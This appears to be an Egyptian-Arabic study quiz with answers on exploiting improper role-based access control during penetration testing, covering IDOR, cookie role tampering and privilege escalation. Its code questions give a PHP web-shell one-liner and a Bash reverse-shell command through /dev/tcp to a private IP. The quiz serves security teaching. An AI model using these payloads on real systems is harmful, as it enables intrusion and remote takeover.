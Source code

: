 إليك الأسئلة مع الإجابات مباشرة بعد كل سؤال، مع زيادة أسئلة الفهم العميق المبنية على سيناريوهات واقعية كما طلبت، وفي جزء الخلاصة السؤال هيكون "قولي الخلاصة بتاعت الجزء":

---

### **أسئلة إكمال الفراغات**
1. Improper RBAC يعني إن نظام التحكم في الوصول بيعتمد على الأدوار معمول بشكل ______.  
   **غلط أو ضعيف**

2. المهاجم يقدر يوصل لحاجات خارج دوره لو ما اتعملش ______ من دور المستخدم.  
   **تحقق**

3. لو لقيت رابط زي `/api/users/123`، ممكن تغير الـ ______ عشان تشوف بيانات حد تاني.  
   **ID**

4. أداة ______ بتساعدك تعترض طلبات الـ API وتعدلها عشان تستغل ضعف RBAC.  
   **Burp Suite**

5. لو وصلت لـ Shell من استغلال RBAC، ممكن تستخدم أمر ______ عشان تصعد لـ Root.  
   **sudo -l**

---

### **أسئلة صح وغلط**
6. Improper RBAC بيخلّي مستخدم عادي يتحكم في النظام كله دايمًا. (صح/غلط)  
   **غلط** - بيعتمد على مدى الضعف، ممكن يكون أفقي أو عمودي.

7. تغيير الـ Cookie من `role=user` لـ `role=admin` ممكن يديك وصول لصفحة Admin لو RBAC ضعيف. (صح/غلط)  
   **صح**

8. الثغرة دي مش خطيرة لو ما قدرتش تسرق بيانات حساسة. (صح/غلط)  
   **غلط** - حتى لو مش بيانات، ممكن تخرب أو تصعد صلاحيات.

9. Nmap بيستخدم لاختبار ضعف RBAC في الـ API مباشرة. (صح/غلط)  
   **غلط** - Nmap بيفحص الخدمات، مش بيختبر RBAC.

10. في الـ Pentesting، لازم توثق كل استغلال لـ RBAC في التقرير. (صح/غلط)  
    **صح**

---

### **أسئلة اختيار من متعدد**
11. إيه السبب الرئيسي لضعف RBAC في نظام؟  
    أ) سوء تصميم الصلاحيات  
    ب) تحديثات قديمة  
    ج) غلط في البرمجة فقط  
    د) استخدام كلمات سر قوية  
    **أ) سوء تصميم الصلاحيات**

12. إيه الأداة اللي بتستخدمها عشان تفحص خدمات الهدف في الخطوة الأولى؟  
    أ) Burp Suite  
    ب) Nmap  
    ج) Gobuster  
    د) curl  
    **ب) Nmap**

13. إيه اللي ممكن يحصل لو استغليت Improper RBAC بنجاح؟  
    أ) تصعيد أفقي  
    ب) تصعيد عمودي  
    ج) سرقة بيانات  
    د) كل اللي فوق  
    **د) كل اللي فوق**

14. إيه اللي بيخلّي مستخدم عادي يوصل لصلاحيات Admin في Improper RBAC؟  
    أ) عدم التحقق من الدور  
    ب) تحديث النظام  
    ج) حماية قوية  
    د) غلق المنافذ  
    **أ) عدم التحقق من الدور**

15. إيه الأمر اللي بيوريك إذا كنت تقدر تصعد صلاحياتك في الـ Shell؟  
    أ) id  
    ب) whoami  
    ج) sudo -l  
    د) uname -r  
    **ج) sudo -l**

---

### **أسئلة "لماذا" لتفسير المفاهيم**
16. ليه Improper RBAC بيعتبر ثغرة أمنية؟  
    **لأنه بيسمح للمستخدم يتجاوز دوره ويعمل حاجات المفروض ممنوعة عليه.**

17. ليه المهاجم بيجرب يغير الـ ID في الرابط زي `/api/users/123`؟  
    **عشان يشوف لو بيانات مستخدم تاني متاحة ويتأكد إن RBAC ضعيف.**

18. ليه الثغرة دي بتكون خطيرة حتى لو ما وصلتش لـ Root؟  
    **لأنها ممكن تسمح بسرقة بيانات أو تخريب حتى لو أفقي بس.**

19. ليه الـ Pentester بيستخدم Burp Suite في اختبار RBAC؟  
    **عشان يعترض الطلبات ويعدلها بسهولة ويشوف لو النظام بيتحقق من الدور أو لا.**

20. ليه تصعيد الصلاحيات من RBAC بيعتبر ذهب في الـ Pentesting؟  
    **لأنه بيديك وصول كبير بمجهود قليل لو النظام ضعيف.**

---

### **أسئلة ربط المفاهيم ببعضها**
21. إزاي تربط بين سوء تصميم الصلاحيات وImproper RBAC؟  
    **سوء التصميم بيخلّي المستخدم يقدر يعمل حاجات خارج دوره بسبب غياب التحقق.**

22. إيه العلاقة بين Improper RBAC وتصعيد أفقي؟  
    **بتسمح لمستخدم عادي يشوف أو يعدل بيانات مستخدم تاني بنفس المستوى.**

23. إزاي Nmap بيساعدك في استغلال Improper RBAC؟  
    **بيكشف الخدمات زي Apache اللي ممكن تحتوي على روابط أو API ضعيفة.**

24. إزاي تغيير الـ Cookie بيساعدك تستغل Improper RBAC؟  
    **بتغير الدور في الـ Cookie من User لـ Admin وتوصل لصفحات ممنوعة.**

25. إيه الرابط بين استغلال الـ API وضعف RBAC؟  
    **الـ API لو ما بيتحققش من الدور بيديك وصول لحاجات خارج صلاحيتك.**

---

### **أسئلة للفهم (عميقة من سيناريوهات واقعية)**
26. لو كنت موظف في شركة ولقيت إنك تقدر تشوف رواتب زمايلك من حسابك العادي، إيه اللي حصل في النظام؟  
    **RBAC ضعيف، لأنه المفروض ما يسمحلكش تشوف بيانات خارج دورك كموظف عادي.**

27. لو موقع تسوق أونلاين سمحلك كـ User تغير سعر منتج من الرابط بتاعك، إزاي ده بيحصل؟  
    **Improper RBAC بيخلّي النظام ينفذ التعديل من غير ما يتحقق إنك مش Admin.**

28. تخيل إنك في بنك ولقيت إنك تقدر تضيف حساب جديد من حسابك العادي، إيه اللي يخلّي ده ممكن؟  
    **عدم التحقق من الدور في RBAC بيسمحلك تعمل حاجات المفروض للأدمن بس.**

29. لو كنت طالب في منصة تعليمية وعدلت درجاتك من حسابك، إزاي النظام سمح بكده؟  
    **RBAC مضروب لأنه ما حطش حدود واضحة بين دور الطالب والأدمن.**

30. لو شركة شحن سمحت لك كـ User تشوف عناوين العملاء التانيين بتغيير الـ ID، إيه اللي ضايع في النظام؟  
    **التحقق من صلاحيات الدور في RBAC، فبقى أي حد يقدر يوصل لبيانات خارج دوره.**

31. تخيل إنك في لعبة أونلاين ولقيت إنك تقدر تفتح إعدادات المطور من حسابك العادي، إزاي ده بيحصل؟  
    **Improper RBAC بيسمحلك تتخطى حدود دورك وتوصل لصلاحيات أعلى.**

32. لو موقع شغل سمح لك كـ موظف عادي تمسح طلبات العملاء من الـ API، إيه اللي ممكن يكون السبب؟  
    **ضعف RBAC بيخلّي الـ API ينفذ الأوامر بدون ما يتأكد إنك Admin.**

33. لو كنت عميل في موقع ولقيت إنك تقدر تضيف خصم لحسابك بتغيير الـ Cookie، إزاي ده واقعي؟  
    **النظام ما بيتحققش من الدور في الـ Cookie، فبيسمحلك تعمل حاجات زي الأدمن.**

34. تخيل إنك في نظام مستشفى ولقيت إنك تقدر تشوف تقارير مرضى تانيين كمريض عادي، إيه اللي غلط؟  
    **RBAC ضعيف بيسمح بتصعيد أفقي لأنه ما بيحددش الوصول صح.**

35. لو كنت في موقع حكومي وعدلت بيانات مواطن تاني من حسابك، إزاي النظام سمح بكده؟  
    **Improper RBAC بيفتقر للتحقق من الدور، فبيخلّيك تتجاوز صلاحياتك بسهولة.**

---

### **أسئلة كتابة كود**
36. اكتب رابط يدوي عشان تختبر ضعف RBAC بتغيير الـ ID.  
    **http://target.com/profile?id=1**

37. اكتب أمر Nmap عشان تفحص الهدف في الخطوة الأولى.  
    **nmap -sV 192.168.1.10**

38. اكتب كود PHP بسيط ترفعه لو وصلت لـ Upload في صفحة Admin.  
    **<?php system($_GET['cmd']); ?>**

39. اكتب طلب API معدل في Burp عشان تستغل ضعف RBAC أفقيًا.  
    **GET /api/users/1 HTTP/1.1  
    Host: 192.168.1.10**

40. اكتب أمر في الـ Shell عشان تاخد Shell تفاعلي بعد رفع ملف PHP.  
    **http://192.168.1.10/admin/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1**

---

### **أسئلة الخلاصة**
41. قولي الخلاصة بتاعت الجزء الأول ("إيه هو Improper Role-Based Access Control (RBAC)؟").  
    **"يعني زي ما تكون حاطط ناس في أوض مختلفة في البيت، بس سايب الأبواب مفتوحة، فالكل يقدر يخش أي حتة! Improper RBAC يعني كل واحد يعمل اللي عايزه من غير ما حد يقوله لأ."**

42. قولي الخلاصة بتاعت الجزء التاني ("ليه المشكلة دي خطيرة؟").  
    **"المشكلة خطيرة لأنها زي ما تكون حاطط حارس بس نايم، أي حد يقدر يعدي وياخد اللي عايزه! المهاجم يلاقي الثغرة دي، يبقى الباشا بتاع الموقع على طول."**

43. قولي الخلاصة بتاعت الجزء التالت ("إزاي نستغلها في الـ Pentesting؟").  
    **"لما تلاقي RBAC ضعيف، زي ما تكون لقيت خرم في الحيطة، تدخل منه وتبقى الكبير بتاع اللعبة من غير ما حد يحس!"**

44. قولي الخلاصة بتاعت الجزء الرابع ("خطوات عملية للاستغلال في Pentesting").  
    **"الخطوات دي زي ما تكون لقيت بيت الأدوار فيه مفتوحة، خشيت من أوضة صغيرة، لعبته في الكبيرة، وطلعت الكبير بتاع الحتة! RBAC لما يكون ضعيف، يبقى طريقك للفوز بسهولة."**

45. قولي الخلاصة النهائية بتاعت النص كله.  
    **"Improper Role-Based Access Control هي ثغرة كبيرة لأنها بتخلّي المستخدم يتجاوز دوره ويوصل لأماكن أو صلاحيات المفروض ممنوعة. في الـ Pentesting، دور على الضعف ده في الروابط، الـ API، أو الكوكيز، استغله عشان تاخد بيانات أو Shell، ووري العميل إن نظامه زي لعبة مفتوحة للكل! بالطريقة دي، تبقى البطل بتاع الساحة بكل سهولة!"**

---

كده الأسئلة مغطية النص كامل، مع زيادة في أسئلة الفهم العميق (من 26 لـ 35) مبنية على سيناريوهات واقعية زي شركات، بنوك، مواقع تسوق، وأنظمة حكومية عشان تفهم الموضوع في سياقات حقيقية. لو عايز أي زيادة أو تعديل، قول لي!